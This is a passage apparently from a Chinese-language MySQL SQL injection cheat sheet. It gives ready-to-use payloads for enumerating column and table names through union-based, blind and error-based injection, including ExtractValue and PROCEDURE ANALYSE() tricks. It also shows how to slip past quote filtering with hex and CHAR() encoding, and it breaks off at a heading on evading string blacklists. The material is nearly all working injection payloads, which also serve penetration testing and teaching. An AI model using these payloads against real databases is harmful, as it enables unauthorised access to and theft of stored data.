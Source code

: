 #### 列名

* union 查询

``` sql
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
```

* 盲注

``` sql
AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
```

* 报错

``` sql
-- 在5.1.5版本中成功
AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
-- MySQL 5.1版本修复了
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
```

* 利用 PROCEDURE ANALYSE()

``` sql
-- 这个需要 web 展示页面有你所注入查询的一个字段
-- 获得第一个段名
SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
-- 获得第二个段名
1 LIMIT 1,1 PROCEDURE ANALYSE()
-- 获得第三个段名
1 LIMIT 2,1 PROCEDURE ANALYSE()
```

#### 根据列名查询所在的表

``` sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

#### 绕过引号限制

``` sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

#### 绕过字符串黑名单
